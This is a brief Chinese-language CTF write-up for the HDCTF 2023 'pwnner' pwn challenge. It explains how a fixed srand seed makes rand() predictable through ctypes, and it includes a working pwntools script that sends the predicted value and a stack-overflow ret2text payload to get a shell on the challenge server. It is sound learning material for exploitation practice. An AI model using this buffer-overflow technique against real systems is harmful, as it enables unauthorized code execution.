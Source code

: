 [[HDCTF 2023]pwnner | NSSCTF](https://www.nssctf.cn/problem/3773)
先看题目
![[Pasted image 20240715214005.png]]
![[Pasted image 20240715214024.png]]
![[Pasted image 20240715214059.png]]
![[Pasted image 20240715214122.png]]
分析：开启NX保护，栈不可执行。有后门函数，为ret2text
buf不可溢出，溢出点为v3 要通过if的判断
查询wp后得知使用了伪随机srand(0x39u)

ps:atoi() 将字符串转为整型，如无法转则返回0

伪随机：当种子一定时，所产生的随机数序列是确定的。可以说srand后的随机数序列是伪随机数。
解决方法之一，调用ctypes库
[Python --- ctypes库的使用-CSDN博客](https://blog.csdn.net/freeking101/article/details/124982244)
[Python 使用 ctypes 调用 C/C++ DLL 动态链接库_ctypes.cdll-CSDN博客](https://blog.csdn.net/captain5339/article/details/126422798)


题解为：
```python
from pwn import *
from ctypes import *
p=remote("node5.anna.nssctf.cn",20676)

backdoor = 0x4008B2 #后门函数地址
context(arch = "amd64",os='linux',log_level='debug')
libc = cdll.LoadLibrary("libc.so.6")
libc.srand(0x39)

p.recvuntil(b"name")
p.sendline(str(libc.rand()).encode("utf-8"))
p.recvuntil(b"next?\n")

payload = b"A"*(0x40+8) + p64(0x40028b) + p64(backdoor)

p.sendline(payload)
p.interactive()
```





